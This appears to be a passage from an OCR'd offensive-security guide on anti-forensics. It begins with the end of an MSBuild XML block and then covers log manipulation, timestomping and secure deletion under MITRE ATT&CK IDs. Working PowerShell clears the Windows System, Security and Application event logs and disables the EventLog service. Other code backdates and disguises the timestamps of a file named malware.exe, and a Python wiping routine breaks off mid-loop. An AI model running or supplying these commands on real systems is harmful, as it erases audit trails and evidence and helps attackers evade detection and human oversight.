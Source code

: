 ```xml
    </Task>
  </UsingTask>
</Project>
```

---

## 3. Anti-Forensics & Cleanup

### 3.1 Log Manipulation (T1070.001)

```powershell
# Clear Windows Event Logs
wevtutil.exe cl System
wevtutil.exe cl Security
wevtutil.exe cl Application

# Disable logging temporarily
Set-Service -Name EventLog -StartupType Disabled
Stop-Service -Name EventLog
```

### 3.2 Timestomping (T1070.006)

```powershell
# Modify timestamps
$file = Get-Item "C:\Windows\Temp\malware.exe"
$file.CreationTime = "01/01/2020 00:00:00"
$file.LastWriteTime = "01/01/2020 00:00:00"
$file.LastAccessTime = "01/01/2020 00:00:00"

# Match legitimate file
$legitimateFile = Get-Item "C:\Windows\System32\notepad.exe"
$maliciousFile = Get-Item "C:\Windows\Temp\malware.exe"

$maliciousFile.CreationTime = $legitimateFile.CreationTime
$maliciousFile.LastWriteTime = $legitimateFile.LastWriteTime
```

### 3.3 Secure File Deletion (T1070.004)

```python
import os
import secrets

def secure_delete(filepath, passes=7):
    """DoD 5220.22-M compliant file deletion"""
    
    file_size = os.path.getsize(filepath)
    
    with open(filepath, 'rb+') as f:
        for pass_num in range(passes):
            f.seek(0)
            
            if pass_num in [0, 2, 4]:
                f.write(secrets.token_bytes(file_size))
            elif pass_num in [1, 3, 5]:
                f.seek(0)
                previous_data = f.read()
                f.seek(0)
                f.write(bytes([~b & 0xFF for b in previous_data]))
            else:
                f.write(secrets.token_bytes(file_size))
            
```